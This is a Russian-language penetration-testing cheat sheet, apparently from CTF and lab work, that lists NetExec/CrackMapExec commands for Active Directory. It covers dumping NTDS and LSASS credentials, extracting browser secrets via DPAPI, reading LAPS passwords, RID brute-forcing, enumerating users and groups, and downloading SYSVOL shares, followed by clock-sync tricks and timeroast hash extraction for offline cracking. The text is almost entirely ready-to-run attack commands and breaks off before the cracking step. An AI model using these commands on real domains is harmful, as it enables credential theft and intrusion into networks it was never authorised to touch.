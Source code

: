 		(тоже)	nxc smb dc1.corp.com -u 'administrator' -p 'password' -M ntdsutil  	

		(тоже)	nxc smb dc1.corp.com -u 'administrator' -p 'password' -M lsassy	

		(тоже но скрытнное)	nxc smb 10.10.11.76 -u user -p pass -M nanodump		

		((получение кредов из браузеров))	mxc smb rs.bank.ats -u boss -p "password" -d bank.ats --dpapi			
  					https://github.com/login-securite/DonPAPI

		(пароли локальных администраторов)	nxc ldap dc -u administrator -p password -d . -M laps		
		
		(получить sid домена)	nxc ldap dc1.corp.com -u 'administrator' -p 'password' -k --get-sid	

  		 (брутит пользователей домена)	nxc smb razor.thm -u wili -p poteto --rid-brute

		(Показать всех пользователей домена)	nxc smb 10.10.10.248 -u Tiffany.Molina -p NewIntelligenceCorpUser9876 --users  

		(показать ктов группе)	proxychains -q nxc ldap 172.16.19.3 -u jimmy -p 'jimmy_001' --groups "src_management" 
  		
		(показать инфо о пользователе)	nxc ldap 172.16.19.3 -u jimmy -p 'jimmy_001' --users jimmy		
		
		(используя модуль spider_plus просмотреть шары и скачать /tmp/nxc_hosted/nxc_spider_plus/<IP-адрес_цели>/)
	nxc smb 10.10.10.10 -u 'user' -p 'password' -M spider_plus --spider SYSVOL --spider-folder Policies -o DOWNLOAD_FLAG=True 
	
		 (нахождение локальных админов)  crackmapexec smb 192.168.50.110 -u 'Administrator' -p 'Password321' --local-auth 
		  
		(Пользователи залогиненные на компе)	sudo crackmapexec smb 172.16.5.130 -u forend -p Klmcargo2 --loggedon-users 


	
* clock sync

		faketime "$(ntpdate -q voleur.htb | awk '{print $1" "$2}')" bash      (меняем время прям в терм)

		sudo timedatectl set-ntp off
		sudo timedatectl set-ntp false 
		sudo timedatectl set-time '20:20:10'
		sudo date --set="2022-01-01 12:00:00"
  		sudo net time set -S 10.10.11.181
  		sudo ntpdate
		sudo ntpdate -s 10.10.10.248 
* Pre2k

  		nxc ldap dc_control.do.com -u 'comp' -k --use-kcache -M pre2k
  
* Timeroast

  	  nxc smb rustykey.htb -M timeroast 
		Можно руками выписать тикеты в файл hash.txt, но я сделал это вот такой командой:

		nxc smb rustykey.htb -M timeroast | grep -oP '\d+:\$sntp-ms\$[^\s]+' > hash.txt
		cut -d ':' -f2- hash.txt > clean_hash.txt
		Для брутфорса этого режима нам понадобится beta-версия hashcat, скачаем и установим ее:

		mkdir -p ~/apps/hashcat-beta
		cd ~/apps/hashcat-beta
		wget https://hashcat.net/beta/hashcat-6.2.6%2B1051.7z
		7z x hashcat-6.2.6+1051.7z
		Теперь запустим брутфорс тикетов и получим пароль от RID 1125 — IT-COMPUTER3:
